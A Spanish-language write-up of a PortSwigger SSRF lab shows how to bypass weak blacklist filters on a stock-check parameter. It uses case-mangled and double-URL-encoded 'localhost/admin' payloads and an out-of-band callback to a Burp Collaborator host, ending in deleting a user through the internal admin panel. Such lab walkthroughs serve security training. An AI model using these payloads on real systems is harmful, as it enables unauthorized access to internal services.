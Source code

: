 ```yaml
---
title: "SSRF Lab 4"
date: 2024-11-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SSRF
tags:
  - SSRF
  - Blind SSRF with out-of-band detection
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Blind SSRF with out-of-band detection

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una `función` de `verificación` de `inventario` que `obtiene datos` de un `sistema interno`. Para `resolver` el `laboratorio`, debemos cambiar la `URL` de `verificación` de `inventario` para `acceder` a la `interfaz` de `administración` en `http://localhost/admin` y `eliminar` al usuario `Carlos`. El desarrollador ha implementado dos `medidas` defensivas `débiles` contra `SSRF` que necesitaremos eludir

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SSRF-Lab-4/image_1.png)

Pulsamos en `View details` y vemos la `descripción` del producto

![](/assets/img/SSRF-Lab-4/image_2.png)

Hacemos `click` sobre la función `Check stock` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/SSRF-Lab-4/image_3.png)

Esta función está `enviando` estos `datos` por `POST`

```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard` y vemos que se está haciendo una `petición` a una `url` vamos a ver si nos llega a nosotros esa `petición`

```
stockApi=http://l1nvttjpdegib5zaazzc93buslycm3as.oastify.com
```

Efectivamente nos llega una `petición` en `Burpsuite Collaborator`

![](/assets/img/SSRF-Lab-4/image_4.png)

Si mandamos un petición con este `payload` nos lo `bloquea` y nos muestra el `mensaje` de `External stock check blocked for security reasons`

```
stockApi=http://localhost/admin
```

De esta forma `evitamos` las `medidas defensivas` contra `SSRF`

```
stockApi=http://LoCaLHost/AdMIn
```

También podemos `ofuscar` el `payload` urlencodeandolo dos veces

```
stockApi=http://%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%36%38%25%36%66%25%37%33%25%37%34/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

Hacemos `click derecho` y `seleccionamos` una de las dos `opciones`

![](/assets/img/SSRF-Lab-4/image_5.png)

Vemos que estamos ante un `panel administrativo`

![](/assets/img/SSRF-Lab-4/image_6.png)

Si pulsamos `Delete` para `borrar` al usuario `carlos` no nos dejará, debido a que no estamos `logueados` como usuario `administrador`

![](/assets/img/SSRF-Lab-4/image_7.png)

Para poder `eliminarlo` debemos usar el `SSRF`

```
stockApi=http://LOCaLhOsT/AdMIN/dELeTe?username=carlos
```
